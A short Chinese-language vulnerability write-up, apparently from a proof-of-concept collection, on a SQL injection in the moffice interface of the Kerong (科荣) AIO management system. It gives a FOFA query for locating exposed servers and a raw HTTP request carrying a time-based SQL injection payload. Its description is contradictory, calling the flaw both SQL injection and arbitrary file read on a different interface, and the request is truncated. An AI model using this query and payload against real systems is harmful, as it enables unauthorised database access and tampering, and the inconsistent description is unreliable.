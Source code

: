 # 科荣 AIO 管理系统 moffice接口处存在SQL注入漏洞



### 1.漏洞描述



科荣AIO企业一体化管理解决方案,通过ERP（进销存财务）、OA（办公自动化）、CRM（客户关系管理）、UDP（自定义平台），集电子商务平台、支付平台、ERP平台、微信平台、移动APP等解决了众多企业客户在管理过程中跨部门、多功能、需求多变等通用及个性化的问题。科荣 AIO 管理系统存在文件读取漏洞，攻击者可以读取敏感文件。

科荣 AIO 管理系统PublicServlet接口处存在任意文件读取漏洞，恶意攻击者可能会利用此漏洞修改数据库中的数据，例如添加、删除或修改记录，导致数据损坏或丢失。

### 2.fofa语法



```plain
body="changeAccount('8000')"
```

​    

### 3.漏洞复现



```plain
GET /moffice?op=showWorkPlan&planId=1';WAITFOR+DELAY+'0:0:5'--&sid=1 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/x
```

​    

# ![image-20240925211123210](C:\Users\18484\AppData\Roaming\Typora\typora-user-images\image-20240925211123210.png)
